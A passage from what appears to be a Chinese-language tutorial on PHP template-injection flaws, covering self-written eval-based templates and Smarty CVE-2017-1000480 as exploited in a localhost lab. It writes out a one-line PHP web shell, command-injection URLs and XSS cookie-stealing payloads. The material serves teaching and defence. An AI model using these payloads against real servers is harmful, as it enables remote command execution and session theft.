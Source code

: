 
通过访问`http://localhost/index1.php?eval=*/phpinfo();//`即可触发漏洞，执行`phpinfo()`函数。

![image-20250802142635834](assets/image-20250802142635834.png)

### 3. 数据联动中的次生漏洞
**XSS跨站脚本漏洞**：数据库数据或模板变量未经过滤直接输出到HTML页面，若内容包含`<script>`标签，会触发XSS攻击。例如：
- 数据库`content`字段插入`<script>alert(document.cookie)</script>`，模板渲染时会执行该脚本窃取Cookie。
- 图片路径`$row[4]`被篡改为`javascript:alert(1)`，导致`<img src="javascript:alert(1)">`触发JS执行。

---

<a id="四漏洞利用实战案例"></a>
## 四、漏洞利用实战案例

### 1. 自写模板RCE漏洞利用步骤
1. **注入恶意数据**：通过数据库管理工具或前端表单，向`new`表的`subheading`字段插入`<?php system($_GET['cmd']);?>`。
2. **触发模板渲染**：访问新闻页面`http://localhost/new.php?id=1`，模板通过`eval`执行恶意代码。
3. **执行系统命令**：构造URL`http://localhost/new.php?id=1&cmd=ipconfig`，服务器会返回网络配置信息，实现远程命令执行。

### 2. Smarty CVE-2017-1000480漏洞利用步骤
1. **搭建漏洞环境**：部署Smarty 3.1.32版本，配置自定义`test`资源并接收`eval`参数。
2. **构造恶意请求**：访问`http://localhost/index1.php?eval=*/system('dir');//`，通过`*/`闭合模板原有代码块，注入`system('dir')`命令。
3. **查看执行结果**：页面会输出服务器目录列表，证明命令执行成功。

### 3. 漏洞影响范围
- **自写模板漏洞**：影响所有使用`eval`执行动态模板内容的PHP应用，可导致服务器完全受控。
- **Smarty历史漏洞**：影响Smarty ≤3.1.32版本的应用，根据CNVD-2018-02508漏洞公告，该漏洞危害级别为"高"，可实现远程代码执行。

---